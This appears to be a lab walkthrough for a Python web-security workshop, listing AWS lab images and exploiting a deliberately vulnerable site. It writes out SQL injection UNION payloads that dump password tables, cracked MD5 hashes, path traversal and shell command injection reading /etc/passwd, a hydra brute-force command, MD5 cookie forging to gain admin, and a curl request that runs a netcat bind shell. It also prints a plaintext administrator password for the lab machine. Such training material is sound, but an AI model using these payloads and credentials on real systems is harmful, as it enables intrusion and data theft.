 # Python SafeSite Guide

## Windows

- Region: `us-east-1`
- AMI name: `SecLabClient`
- Description: This is the Windows client with tools for the Python_SafeSite Security Workshop
- Administrator Password: `mBp4t;Jvg6!dskzt3DCHa@w7H?l5.?VE`
- AMI id: `ami-01127273b979fe92b`

## Linux

- Region: `us-east-1`
- AMI name: `SecLabServer`
- Description: This is the Linux server with the vulnerable site for the Python_SafeSite Security Workshop
- AMI id: `ami-01127273b979fe92b`

## Falhas e Ataques

### Home page: SQL Injection

By placing a double quotation mark (") in the search field, the site breaks. This shows that the site is vulnerable to SQL Injection attacks. An aggravating factor is that the developer left the Debug page enabled, showing details of the error and even the engine (SQLite3). With SQL information it is possible to compose an attack that is added to the "where" clause:

- Original:

  - `SELECT * FROM posts WHERE Content LIKE "%"%";`

- Poisoned:

  - `SELECT * FROM posts WHERE Content LIKE "%X" union select 1, 2 --%";`

    - `X" union select 1, 2 --`
    - `X" union select name, sql from sqlite_master where type='table' --`
    - `X" union select name || ': ' || card, password from secrets --`
    - `X" union select login || ': ' || email, password from logins --`

We have the hashes. Break them in [https://crackstation.net/](https://crackstation.net/):

084e0343a0486ff05530df6c705c8bb4: guest@guest
084e0343a0486ff05530df6c705c8bb4

21232f297a57a5a743894a0e4a801fc3: admin@admin
0192023a7bbd73250516f069df18b500

263bce650e68ab4e23f28263760b9fa5: maria@gmail.com
3a1f9e20f1beac9b81a1e18e08b7f442

dc599a9972fde3045dab59dbd1ae170b: carlos@hotmail.com
a07bda8fd5e39462b4c3d860a36f6b4d

| Hash                             | Tipo | Senha       |
| -------------------------------- | ---- | ----------- |
| 084e0343a0486ff05530df6c705c8bb4 | md5  | guest       |
| 0192023a7bbd73250516f069df18b500 | md5  | admin123    |
| 3a1f9e20f1beac9b81a1e18e08b7f442 | md5  | unicornio   |
| a07bda8fd5e39462b4c3d860a36f6b4d | md5  | corinthians |

### About us page: Path Traversal, Remote Command Execution

The About Us page clearly displays the contents of text files that are on the server. When you click on one of them, the URL looks like this:

[http://0.0.0.0:8080/about?doc=termo_de_uso](http://0.0.0.0:8080/about?doc=termo_de_uso)

Let's explore:

- `?doc=x`: blank
- `?doc=/etc/passwd`: blank

Probably not see anything because this field receives the file name and does prepend a path and append an extension. Therefore, term_user should become something like /folder/user.txt. If this is true, we can test with relative directories + null bytes and also with multiple file names.

- [http://0.0.0.0:8080/about?doc=../../../../../etc/passwd%00](http://0.0.0.0:8080/about?doc=../../../../../etc/passwd%00)  Breaks with null byte.
- [http://0.0.0.0:8080/about?doc=/etc/hostname /etc/fstab /etc/passwd /etc/mtab /etc/hosts](http://0.0.0.0:8080/about?doc=/etc/hostname%20/etc/fstab%20/etc/passwd%20/etc/mtab%20/etc/hosts) displays all files but the first and the last.
- Does it in this context pass the path to the shell? If so, we can try to embed and execute commands ... [http://0.0.0.0:8080/about?doc=../../../../../etc/passwd%20$(echo%20/etc/hosts)%20x](http://0.0.0.0:8080/about?doc=../../../../../etc/passwd%20$(echo%20/etc/hosts)%20x). Oh, dear! Game over.

### Contact us: CSRF + XSS (Firefox)

These XSS attacks do not work in Chrome.

In the first form you can run an XSS, but it is not persisted.

In the second, however, it is persisted but not executed.

To make the attack, the victim has to click on a link made to steal the session or capture the browser, with software such as Beef, for example.

### Sign up: XSS, File Upload

When you create a user, you can upload any file other than a photo to the server. For a PHP site, for example, this file may be a shell that allows remote access to the server.

### Restrict area: HTTP Brute Force

With THC-Hydra, Burp Suite or OWASP ZAP you can easily crack passwords, as there is no time limiter after wrong attempts.

```
hydra -V -s 8080 \
    -l admin -P /opt/wordlists/common_it_passwords.txt \
    0.0.0.0 \
    http-post-form \
    '/login:login=^USER^&senha=^PASS^:Wrong credentials!'
```

### Profile: HTTP Brute Force

Same as the previous item.

### Global: Cookie Tampering (or Poisoning)

When creating a test user named **cleber** with password **12345**, the following cookies were set after login:

- pyverysafeid: 5c675a11f4a8474c3d75ff158570850a (this is cleber in MD5)
- pyverysafelogin: ee11cbb19052e40b07aac0ca060c23ee (this is the word "user")

If the hash is the word user, what happens if I switch to admin in MD5?

21232f297a57a5a743894a0e4a801fc3 -> admin

By updating the cookie and refreshing, session privileges are instantly increased!

### Global: Directory Search

Since there is no feature that prevents multiple sequential requests, tools such as DIRB, Nikto and ZAP can fuzzy or do list attacks to find hidden directories.

`dirb http://0.0.0.0:8080/`

Found `/status` hidden.

### Status: Form Tampering (or Poisoning)

The `/status` directory only allows the execution of certain commands, and only for the admin user. This restrictions are client-side, so they can be bypassed by changing parameters in the request, so that commands are sent directly to the server.

```
curl --cookie 'pyverysafelogin=21232f297a57a5a743894a0e4a801fc3' \
    'http://0.0.0.0:8080/status' \
    -X POST \
    --data 'cmd=env'
```

To raise a reverse shell if the server has Netcat installed:

```
curl --cookie 'pyverysafelogin=21232f297a57a5a743894a0e4a801fc3' \
    'http://0.0.0.0:8080/status' \
    -X POST \
    --data 'cmd=nc -lvp 8443 -e /bin/bash'
```

There are much more breaches. Go explore and have fun!
